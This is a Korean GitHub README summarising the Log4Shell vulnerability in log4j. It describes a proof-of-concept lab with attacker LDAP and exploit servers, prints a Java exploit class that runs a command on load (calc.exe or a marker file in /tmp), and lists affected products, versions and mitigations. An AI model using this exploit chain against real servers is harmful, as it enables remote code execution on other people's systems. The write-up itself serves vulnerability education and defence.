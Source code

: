 # log4j 취약점 정리

* log4j는 대부분의 java application에서 범용적으로 사용되는 로깅 라이브러리
* log4j에서 JNDI(JAVA Naming and Directory Interface)를 통하여 LDAP이나 DNS lookup 가능하며 제한이 없음
  * java class의 URI도 JNDI lookup의 리턴값으로 가져올 수 있음 

# PoC 환경
  * Victim : log4j 취약점을 갖은 서버 (vulnerable-app)
    * e.g.) log.info("Received a request for API version {}", X-Api-Version);
    * listen port 8080
    * ![victim](image/victim_vuln_spring_server.png)
  * Attacker LDAP 조회 응답 서버
    * listen port 1389
    * ![ldapref](image/attacker_ldapref_server.png)
  * Attacker Exploit 코드를 가진 서버
    * listen port 8888
    * ![exploit](image/attacker_exploit_server.png)
    * Exploit.java
      ```java
        public class Exploit {
          public Exploit() {}
          static {
              try {
                  String[] cmds = System.getProperty("os.name").toLowerCase().contains("win")
                          ? new String[]{"cmd.exe","/c", "calc.exe"}
                          : new String[]{"touch","/tmp/log4j_vuln_cjcert"};
                  java.lang.Runtime.getRuntime().exec(cmds).waitFor();
              }catch (Exception e){
                  e.printStackTrace();
              }
          }
          public static void main(String[] args) {
              Exploit e = new Exploit();
          }
      }
      ```
# 실행
  * 취약점을 갖은 서버로 Http Header 내 X-Api-Version 키에 jdni ldap 서버의 주소와 java클래스 이름으로 보냄
    * ![exploit](image/attack_req.png)
  * 해당 서버 내 /tmp log4j_vuln_cjcert 파일 생성
    * ![attk_result](image/attack_result.png)

# 영향받는 시스템
  * Elasticsearch
  * Grails
  * Hadoop
  * Kafka
  * Kibana
  * Solr
  * Spark
  * Struts
  * Tapestry
  * Wicket

# 영향 받는 log4j2 버전
  * 2.0 <= Apache log4j <= 2.14.1

# 해결 방안
  * 2.0-beta9 ~ 2.10.0
    * JndLookup 클래스를 경로에서 제거 : zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

  * 2.10 ~ 2.14.1
    * log4j2.formatMsgNoLookups 또는 LOG4J_FORMAT_MSG_NO_LOOKUPS 환경변수를 true로 설정

  * 제조사 홈페이지를 통해 최신버전(2.15.0)으로 업데이트 적용[3]

# 참고
  * https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=36389
  * https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
  * https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j
  * https://github.com/christophetd/log4shell-vulnerable-app
